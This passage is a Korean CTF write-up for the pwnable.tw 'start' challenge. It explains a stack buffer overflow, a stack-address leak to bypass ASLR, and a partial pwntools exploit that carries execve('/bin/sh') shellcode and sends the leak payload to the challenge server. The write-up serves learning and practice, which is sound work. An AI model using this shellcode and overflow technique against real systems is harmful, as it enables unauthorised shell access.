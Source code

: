 중요한건 _exit 함수가 무조건 실행된다는 것이다. 그렇다면 버퍼를 넘치게해서 실행 흐름을 바꾸면 될 것이다.
그렇다면 총 24byte 만큼 입력을 한다면 ret address가 변조될 것 이다.

![Start](https://github.com/Shhoya/Shhoya.github.io/blob/master/assets/images/task/pwn2.png?raw=true "start"){:.border}

자 그럼 이제 sys_write 전에 있는 'mov ecx,esp' 로 실행 흐름을 바꿔주면된다. 그 이유는 ASLR으로 인해 스택주소가 랜덤하게 배정되기 때문이다.

즉 sys_write로 다시 넘겨 memory leak을 유발시키고 leak된 스택 주소를 이용하며 'add esp, 14'를 통해 _exit가 호출되니 해당 스택주소에 +0x14 만큼 더하여 페이로드를 넘겨주면 가능하다.

### Exploit

```python
from pwn import *
context.log_level="debug"

s = remote('chall.pwnable.tw',10000)
e=ELF('./start')
shell='\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'
payload=''
payload='A'*20
payload+=p32(0x8048087)
log.info(" Leak payload : "+payload)
s.sendafter(':', payload)
```